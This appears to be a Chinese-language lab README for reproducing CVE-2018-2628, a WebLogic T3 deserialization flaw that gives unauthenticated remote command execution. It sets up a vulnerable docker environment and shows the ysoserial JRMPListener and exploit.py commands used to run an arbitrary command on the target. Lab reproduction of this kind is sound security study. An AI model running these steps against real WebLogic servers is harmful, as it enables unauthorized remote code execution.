

# Weblogic WLS Core Components 反序列化命令执行漏洞（CVE-2018-2628）

Oracle 2018 年 4 月补丁中，修复了 Weblogic Server WLS Core Components 中出现的一个反序列化漏洞（CVE-2018-2628），该漏洞通过 T3 协议触发，可导致未授权的用户在远程服务器执行任意命令。

参考链接：

- http://www.oracle.com/technetwork/security-advisory/cpuapr2018-3678067.html
- http://mp.weixin.qq.com/s/nYY4zg2m2xsqT0GXa9pMGA
- https://github.com/tdy218/ysoserial-cve-2018-2628

## 漏洞环境

执行如下命令启动 Weblogic 10.3.6.0：

```
docker compose up -d
```

等待环境启动（环境差异，有的机器可能等待的时间比较久），访问 `http://your-ip:7001/console`，初始化整个环境。

## 漏洞复现

首先下载 ysoserial，并启动一个 JRMP Server：

```
java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener [listen port] CommonsCollections1 [command]
```

其中，`[command]` 即为我想执行的命令，而 `[listen port]` 是 JRMP Server 监听的端口。

然后，使用 [exploit.py](https://www.exploit-db.com/exploits/44553) 脚本，向目标 Weblogic（`http://your-ip:7001`）发送数据包：

```
python exploit.py [victim ip] [victim port] [path to ysoserial] [JRMPListener ip] [JRMPListener port] [JRMPClient]
```

其中，`[victim ip]` 和 `[victim port]` 是目标 weblogic 的 IP 和端口，`[path to ysoserial]` 是本地 ysoserial 的路径，`[JRMPListener ip]` 和 `[JRMPListener port]` 第一步中启动 JRMP Server 的 IP 地址和端口。`[JRMPClient]` 是执行 JRMPClient 的类，可选的值是 `JRMPClient` 或 `JRMPClient2`。

exploit.py 执行完成后，执行 `docker compose exec weblogic bash` 进入容器中，可见/tmp/success 已成功创建。


